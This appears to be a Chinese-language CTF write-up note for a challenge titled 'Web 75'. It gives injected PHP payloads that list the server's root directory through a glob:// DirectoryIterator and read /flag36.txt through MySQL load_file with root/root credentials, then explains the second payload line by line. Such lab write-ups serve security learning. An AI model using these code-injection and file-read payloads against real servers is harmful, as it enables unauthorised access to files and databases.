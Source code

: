 # Web 75
先用老方法查看`flag.txt`在哪里：
```PHP
c=
?>
<?php 
	$a=new DirectoryIterator("glob:///*");
	foreach($a as $f){
		echo($f->__toString().'');
	}
	exit(0);
?>
```
![[Pasted image 20240926191100.png]]
- 注意`<?php`后的空格。
再用下面这段代码输出内容：
```PHP
c=
try {
	$dbh = new PDO('mysql:host=localhost;dbname=ctftraining', 'root', 'root');
	foreach($dbh->query('select load_file("/flag36.txt")') as $row){
		echo($row[0])."|"; 
	}
	$dbh = null;
} catch (PDOException $e) {
	echo $e->getMessage();
	exit(0);
}
exit(0);
```
这段PHP代码的功能是从MySQL数据库中读取一个文件的内容，并输出。
下面是对代码的逐行解释：
### **代码解析**

1. **异常处理结构 (`try ... catch`)**：
   ```php
   try {
       // 代码块
   } catch (PDOException $e) {
       // 错误处理
   }
   ```
   - 使用`try`块来尝试执行可能会抛出异常的代码，如果发生错误，则`catch`块会捕获并处理异常。

2. **创建PDO对象**：
   ```php
   $dbh = new PDO('mysql:host=localhost;dbname=ctftraining', 'root', 'root');
   ```
   - 创建一个新的PDO（PHP Data Objects）实例，用于连接到MySQL数据库，连接的数据库是`ctftraining`，用户名和密码均为`root`。

3. **查询文件内容**：
   ```php
   foreach($dbh->query('select load_file("/flag36.txt")') as $row) {
       echo($row[0])."|";
   }
   ```
   - 使用`query`方法执行SQL语句，`load_file("/flag36.txt")`用于从服务器读取`/flag36.txt`文件的内容。
   - `foreach`循环遍历查询结果，将文件内容输出，并在后面加上一个分隔符`|`。
